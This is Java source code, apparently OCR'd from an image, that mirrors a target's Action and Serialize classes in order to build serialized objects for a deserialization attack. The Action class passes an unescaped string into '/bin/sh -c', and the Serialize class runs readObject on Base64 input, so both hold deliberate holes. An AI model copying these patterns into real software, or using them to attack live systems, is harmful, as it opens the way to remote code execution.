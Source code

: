     // These classes must match the target's Action and Serialize classes
    class Action implements Serializable {
    
        public final String name;
        public final String command;
        public String output = "";
    
        public Action(String name, String command) {
            this.name = name;
            this.command = command;
        }
    
        public void action() throws IOException, ClassNotFoundException {
            String s = null;
            String[] cmd = {
                "/bin/sh",
                "-c",
                "echo \"" + this.command + "\""
            };
            Process p = Runtime.getRuntime().exec(cmd);
            BufferedReader stdInput = new BufferedReader(new InputStreamReader(p.getInputStream()));
            String result = "";
            while ((s = stdInput.readLine()) != null) {
                result += s + "\n";
            }
            this.output = result;
        }
    }
    
    class Serialize {
    
        /**
         * Read the object from Base64 string.
         */
        public static Object fromString(String s) throws IOException,
                ClassNotFoundException {
            byte[] data = Base64.getDecoder().decode(s);
            ObjectInputStream ois = new ObjectInputStream(
                    new ByteArrayInputStream(data));
            Object o = ois.readObject();
            ois.close();
            return o;
        }
    
        /**
         * Write the object to a Base64 string.
         */
        public static String toString(Serializable o) throws IOException {
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            ObjectOutputStream oos = new ObjectOutputStream(baos);
            oos.writeObject(o);
            oos.close();
            return Base64.getEncoder().encodeToString(baos.toByteArray());
        }
    }
